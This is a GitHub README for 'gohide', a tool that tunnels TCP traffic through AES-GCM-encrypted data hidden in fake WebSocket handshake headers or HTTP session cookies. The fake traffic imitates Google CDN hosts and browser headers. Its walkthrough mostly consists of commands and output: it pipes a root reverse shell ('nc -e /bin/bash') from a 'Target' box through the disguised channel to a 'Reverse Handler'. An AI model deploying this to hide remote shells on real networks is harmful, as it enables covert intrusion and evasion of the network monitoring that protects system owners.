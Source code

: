 # gohide 

Tunnel TCP port to port traffic via an obfuscated channel with AES-GCM encryption. 

**Obfuscation Modes**
- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server) 
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

AES-GCM is enabled by default for each of the options above.

**Usage**
```
root@WOPR-KALI:/opt/gohide# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -k openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: run with '-k openssl passwd -1 -salt ok | md5sum' to derive key from password without exposing to command line (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")
```

**Scenario**

Box A - Reverse Handler.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r 127.0.0.1:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```
Box B - Target.
```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:9091 -r 127.0.0.1:8081 -l 127.0.0.1:9090 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091

```
Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090

```
Box A - Netcat client
```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide      

```
**Obfuscation Samples**

websocket-client (Box A to Box B)
- Sec-WebSocket-Key contains AES-GCM encrypted content e.g. "uname -a".
```
GET /news/api/latest HTTP/1.1
Host: cdn-tb0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: 6jZS+0Wg1IP3n33RievbomIuvh5ZdNMPjVowXm62
Sec-WebSocket-Version: 13
```

websocket-server (Box B to Box A)
- Sec-WebSocket-Accept contains AES-GCM encrypted output.
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: URrP5l0Z3NIHXi+isjuIyTSKfoP60Vw5d2gqcmI=
```
http-client
- Session cookie header contains AES-GCM encrypted content
```
GET /news/api/latest HTTP/1.1
Host: cdn-tbn0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://www.bbc.co.uk/
Connection: keep-alive
Cookie: Session=R7IJ8y/EBgCanTo6fc0fxhNVDA27PFXYberJNW29; Secure; HttpOnly
```
http-server
- Set-Cookie header contains AES-GCM encrypted content.
```
HTTP/2.0 200 OK
content-encoding: gzip
content-type: text/html; charset=utf-8
pragma: no-cache
server: nginx
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
cache-control: no-cache, no-store, must-revalidate
expires: Thu, 21 Nov 2019 01:07:15 GMT
date: Thu, 21 Nov 2019 01:07:15 GMT
content-length: 30330
vary: Accept-Encoding
X-Firefox-Spdy: h2
Set-Cookie: Session=gWMnQhh+1vkllaOxueOXx9/rLkpf3cmh5uUCmHhy; Secure; Path=/; HttpOnly

```

none
```
8JWxXufVora2FNa/8m2Vnub6oiA2raV4Q5tUELJA
```

![Screenshot from 2019-11-21 02-26-30](https://user-images.githubusercontent.com/56988989/69298676-804ba680-0c06-11ea-84f6-2a32c48a3ba0.png)

![Screenshot from 2019-11-21 16-40-07](https://user-images.githubusercontent.com/56988989/69357798-a3656d00-0c7d-11ea-9db9-d3fe5d2e9ccf.png)


Future
- Fix up error handling.
- Add TLS.

Enjoy~
